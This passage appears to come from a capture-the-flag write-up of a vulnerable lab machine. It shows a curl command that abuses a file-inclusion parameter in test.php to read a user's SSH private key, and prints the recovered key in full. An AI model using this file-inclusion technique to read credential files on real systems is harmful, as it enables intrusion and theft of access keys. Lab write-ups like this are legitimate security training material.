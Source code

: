 ![](/assets/images/fall/screenshot-4.png)

After a quick enumeration, I found an SSH key into the quiu's home directory.

```console
root@kali:~$ curl -s "http://172.16.131.132/test.php?file=/home/qiu/.ssh/id_rsa" | tee id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAvNjhOFOSeDHy9K5vnHSs3qTjWNehAPzT0sD3beBPVvYKQJt0AkD0
FDcWTSSF13NhbjCQm5fnzR8td4sjJMYiAl+vAKboHne0njGkBwdy5PgmcXyeZTECIGkggX
61kImUOIqtLMcjF5ti+09RGiWeSmfIDtTCjj/+uQlokUMtdc4NOv4XGJbp7GdEWBZevien
qXoXtG6j7gUgtXX1Fxlx3FPhxE3lxw/AfZ9ib21JGlOyy8cflTlogrZPoICCXIV/kxGK0d
Zucw8rGGMc6Jv7npeQS1IXU9VnP3LWlOGFU0j+IS5SiNksRfdQ4mCN9SYhAm9mAKcZW8wS
vXuDjWOLEwAAA9AS5tRmEubUZgAAAAdzc2gtcnNhAAABAQC82OE4U5J4MfL0rm+cdKzepO
NY16EA/NPSwPdt4E9W9gpAm3QCQPQUNxZNJIXXc2FuMJCbl+fNHy13iyMkxiICX68Apuge
d7SeMaQHB3Lk+CZxfJ5lMQIgaSCBfrWQiZQ4iq0sxyMXm2L7T1EaJZ5KZ8gO1MKOP/65CW
iRQy11zg06/hcYlunsZ0RYFl6+J6epehe0bqPuBSC1dfUXGXHcU+HETeXHD8B9n2JvbUka
U7LLxx+VOWiCtk+ggIJchX+TEYrR1m5zDysYYxzom/uel5BLUhdT1Wc/ctaU4YVTSP4hLl
KI2SxF91DiYI31JiECb2YApxlbzBK9e4ONY4sTAAAAAwEAAQAAAQArXIEaNdZD0vQ+Sm9G
NWQcGzA4jgph96uLkNM/X2nYRdZEz2zrt45TtfJg9CnnNo8AhhYuI8sNxkLiWAhRwUy9zs
qYE7rohAPs7ukC1CsFeBUbqcmU4pPibUERes6lyXFHKlBpH7BnEz6/BY9RuaGG5B2DikbB
8t/CDO79q7ccfTZs+gOVRX4PW641+cZxo5/gL3GcdJwDY4ggPwbU/m8sYsyN1NWJ8NH00d
X8THaQAEXAO6TTzPMLgwJi+0kj1UTg+D+nONfh7xeXLseST0m1p+e9C/8rseZsSJSxoXKk
CmDy69aModcpW+ZXl9NcjEwrMvJPLLKjhIUcIhNjf4ABAAAAgEr3ZKUuJquBNFPhEUgUic
ivHoZH6U82VyEY2Bz24qevcVz2IcAXLBLIp+f1oiwYUVMIuWQDw6LSon8S72kk7VWiDrWz
lHjRfpUwWdzdWSMY6PI7EpGVVs0qmRC/TTqOIH+FXA66cFx3X4uOCjkzT0/Es0uNyZ07qQ
58cGE8cKrLAAAAgQDlPajDRVfDWgOWJj+imXfpGsmo81UDaYXwklzw4VM2SfIHIAFZPaA0
acm4/icKGPlnYWsvZCksvlUck+ti+J2RS2Mq9jmKB0AVZisFazj8qIde3SPPwtR7gBR329
JW3Db+KISMRIvdpJv+eiKQLg/epbSdwXZi0DJoB0a15FsIAQAAAIEA0uQl0d0p3NxCyT/+
Q6N+llf9TB5+VNjinaGu4DY6qVrSHmhkceHtXxG6h9upRtKw5BvOlSbTatlfMZYUtlZ1mL
RWCU8D7v1Qn7qMflx4bldYgV8lf18sb6g/uztWJuLpFe3Ue/MLgeJ+2TiAw9yYoPVySNK8
uhSHa0dvveoJ8xMAAAAZcWl1QGxvY2FsaG9zdC5sb2NhbGRvbWFpbgEC
-----END OPENSSH PRIVATE KEY-----
```
